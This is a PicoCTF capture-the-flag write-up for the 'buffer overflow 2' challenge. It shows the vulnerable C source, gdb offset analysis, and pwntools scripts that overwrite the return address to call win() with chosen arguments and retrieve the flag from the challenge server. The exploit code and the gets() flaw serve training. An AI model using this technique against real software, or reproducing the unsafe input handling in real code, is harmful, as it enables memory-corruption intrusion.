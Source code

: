 # PicoCTF - buffer overflow 2

## Challenge Overview
**Title:** buffer overflow 2  
**Category:** Binary Exploitation  
**Difficulty:** Medium  
**Files Provided:** vuln.c, vuln

## Description
Control the return address and arguments

Additional details will be available after launching your challenge instance.

## Source Code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Analysis
This challenge is a continuation of the previous one in the series.  
We have to again override the return address and point it to `win()`.  
But, we also have to provide some arguments to it.

I will hop into `gdb` and begin.  
I set a breakpoint in `vuln` and after `gets()` to see the distance between the start of the buffer and the return address

```
(gdb) b *0x0804935a
Breakpoint 2 at 0x804935a
(gdb) r
Starting program: /home/giorgos/Downloads/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
AAAAAAA

Breakpoint 2, 0x0804935a in vuln ()
(gdb) x/32x $ebp-120
0xffffcc30:	0xf7f9ed40	0xf7f9ed87	0x00000001	0x41414141
0xffffcc40:	0x00414141	0xf7ffcfe8	0x00000507	0xf7f9d7a8
0xffffcc50:	0x0000001a	0xf7f9ed40	0xffffcc98	0xf7de533b
0xffffcc60:	0xf7f9ed40	0x0000000a	0x0000001a	0xf7e6feb2
0xffffcc70:	0xf7d828dc	0x0804c000	0xf7f9de34	0xf7f9eddc
0xffffcc80:	0xffffccc8	0xf7fdabb0	0x00000000	0x0804c000
0xffffcc90:	0x080493f0	0xf7ffcb60	0xffffccc8	0x080493d5
0xffffcca0:	0x0804a063	0x0804c000	0xffffccc8	0x080493dd
```
**Buffer start:** 0xffffcc3c
**Return Address:** 0xffffccac
**Address of win:** 0x08049296

So we need 112 As to reach the start of the return address

When the function returns, **esp**  will point to where the return address is stored and will become **ebp** for win.  
**win ebp:** 0xffffccac

So we need to find at what offsets from **ebp** the arguments are expected to be stored.
```
(gdb) disas win
Dump of assembler code for function win:
0x0804930c <+118>:	cmpl   $0xcafef00d,0x8(%ebp)
0x08049313 <+125>:	jne    0x804932f <win+153>
0x08049315 <+127>:	cmpl   $0xf00df00d,0xc(%ebp)
0x0804931c <+134>:	jne    0x8049332 <win+156>
```
The **first** argument is expected at **ebp + 0x8** and the **second** at **ebp + 0xc**.  
Since **ebp** points at the location of the return address we override, we simply need to override the next 12 bytes as well
0xffffccac  Return Address
0xffffccb0  Pad
0xffffccb4  First Argument
0xffffccb8  Second Argument

To create the payload I will use the following Python script
### Python Script
```python
from pwn import *


def reverse_string(addr):
    chunks = [addr[i:i+2] for i in range(0, len(addr), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)


def construct_payload(win_addr, arg_pad, arg1, arg2):
    payload = 'A'*28*4
    payload += reverse_string(win_addr)
    payload += arg_pad
    payload += reverse_string(arg1)
    payload += reverse_string(arg2)
    return payload


def main():
    win_addr = "08049296"
    arg1 = "CAFEF00D"
    arg2 = "F00DF00D"
    arg_pad = 'A'*4
    payload = construct_payload(win_addr, arg_pad,  arg1, arg2)
    print(payload)


main()
```
Now, I will use this in `gdb` and test it out
**Note:** Create a **flag.txt** in the same directory as the program
```
(gdb) r < <(printf "$(python generate_payload.py)")
...
���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAA
my flag

Program received signal SIGSEGV, Segmentation fault.
```
And we see our flag.

Now to send the payload to the server I will use this Python script using `pwntools`
### Python Script
```python
from pwn import *

def reverse_string(addr):
    chunks = [addr[i:i+2] for i in range(0, len(addr), 2)]

    chunks.reverse()

    hex_bytes = ['\\x' + chunk for chunk in chunks]
    return ''.join(hex_bytes)

def construct_payload(win_addr, arg_pad, arg1, arg2):
    payload = 'A'*28*4
    payload += reverse_string(win_addr)
    payload += arg_pad
    payload += reverse_string(arg1)
    payload += reverse_string(arg2)
    return payload.encode().decode('unicode_escape').encode('latin1')


def send_to_server(payload):
    # Connect to the remote server
    host = 'saturn.picoctf.net'
    port = 57556
    conn = remote(host, port)

    conn.sendline(payload)

    # Receive the server's response
    response = conn.recvall()
    # Close the connection
    conn.close()

    return response


def get_flag(output):
    index = output.find("picoCTF{")
    result = output[index:]  # substring from pattern to end
    return result


def main():
    win_addr = "08049296"
    arg1 = "CAFEF00D"
    arg2 = "F00DF00D"
    arg_pad='A'*4
    payload = construct_payload(win_addr, arg_pad, arg1, arg2)
    server_output = send_to_server(payload)
    print(get_flag(server_output.decode('utf-8', errors='ignore')))


main()
```
```
$ python script.py          
[+] Opening connection to saturn.picoctf.net on port 57556: Done
[+] Receiving all data: Done (190B)
[*] Closed connection to saturn.picoctf.net port 57556
picoCTF{____REDACTED____}
```
## Solution
- Find distance of `buf` in `vuln()` from the return address
- Override return address with the address of `win()`
- 4 bytes after the return address place the two arguments 0xCAFEF00D and 0xF00DF00D